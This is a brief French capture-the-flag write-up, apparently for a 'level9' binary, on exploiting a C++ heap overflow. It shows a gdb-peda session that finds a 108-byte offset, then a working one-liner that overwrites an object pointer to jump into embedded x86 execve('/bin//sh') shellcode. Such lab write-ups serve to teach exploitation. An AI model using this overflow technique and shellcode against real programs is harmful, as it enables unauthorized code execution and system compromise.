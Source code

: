 # Level 3*3

- On voit qu'une instance de N est executer en tant que fonction dans le code on comprends donc qu'il faut la overwrite pour executer un shell code.


- On va chercher le bon offset avec gdb.

<pre>
gdb-peda$ r $(python -c "print('A' * 108 + 'BBBB')")

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
<strong>EAX: 0x42424242 ('BBBB')</strong>
EBX: 0x804ec20 ("BBBB")
ECX: 0x70 ('p')
EDX: 0x804ebb4 ('A' repeats 108 times, "BBBB")
ESI: 0xf7ddb000 --> 0x1e4d6c 
EDI: 0xf7ddb000 --> 0x1e4d6c 
EBP: 0xffffd4c8 --> 0x0 
ESP: 0xffffd4a0 --> 0x804ebb0 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:	push   ebp)
EIP: 0x8048682 (<main+142>:	mov    edx,DWORD PTR [eax])
EFLAGS: 0x10287 (CARRY PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048677 <main+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x804867c <main+136>:	mov    eax,DWORD PTR [esp+0x10]
   0x8048680 <main+140>:	mov    eax,DWORD PTR [eax]
=> 0x8048682 <main+142>:	mov    edx,DWORD PTR [eax]
   0x8048684 <main+144>:	mov    eax,DWORD PTR [esp+0x14]
   0x8048688 <main+148>:	mov    DWORD PTR [esp+0x4],eax
   0x804868c <main+152>:	mov    eax,DWORD PTR [esp+0x10]
   0x8048690 <main+156>:	mov    DWORD PTR [esp],eax
[------------------------------------stack-------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x08048682 in main ()
gdb-peda$ x $eax
0x42424242:	Cannot access memory at address 0x42424242
</pre>

- Le programe segfault au moment de mettre le contenue de $eax dans la variable execute en tant que fonction donc on peut changer la fonction execute

- Pour simuler le contenu d'une GOT on change edx par l'addresse de debut de str et on y met l'adresse du debut du shellcode

```
./level9 $(python -c "print('\x10\xa0\x04\x08' + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A' * 83 + '\x0c\xa0\x04\x08')")
```
